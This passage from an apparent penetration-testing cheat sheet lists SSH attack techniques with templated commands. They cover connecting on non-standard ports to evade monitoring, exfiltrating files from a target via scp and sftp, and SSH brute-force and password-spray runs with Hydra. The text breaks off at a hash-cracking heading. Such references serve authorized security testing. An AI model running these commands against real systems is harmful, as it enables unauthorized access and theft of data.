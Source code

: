 *   **Tool:** \[\[SSH]], Custom Configurations

    ```bash
    ssh <username>@<target_ip> -p <non_standard_port>
    ```
* **Description:** Connects to SSH using a non-standard port to avoid detection by security tools monitoring port 22.

### Data Exfiltration

#### Using SCP for Data Exfiltration

*   **Tool:** \[\[SCP]]

    ```bash
    scp -P <target_port> <username>@<target_ip>:/path/to/file.txt /local/destination/
    ```
* **Description:** Securely transfers sensitive data from the target to the attacker’s machine using SCP.

#### SFTP for Covert File Transfers

*   **Tool:** \[\[SFTP]]

    ```bash
    sftp -P <target_port> <username>@<target_ip>
    ```
* **Description:** Uses SFTP to covertly transfer files, bypassing traditional file transfer monitoring tools.

## Exploits and Attacks

### Password Attacks

#### Password Brute Force

*   **Tool:** \[\[Hydra Cheat Sheet]]

    ```bash
    hydra ssh://<target_ip> -s 22 -l <username> -P <password_list>
    ```
* **Description:** Test a single username against multiple passwords.

#### Password Spray

*   **Tool:** \[\[Hydra Cheat Sheet]]

    ```bash
    hydra ssh://<target_ip> -s 22 -l <username_list> -P <password>
    ```
* **Description:** Test a multiple usernames against a single password.

#### Offline Hash Cracking

*   **Tool:** \[\[John the Ripper Cheat Sheet]]
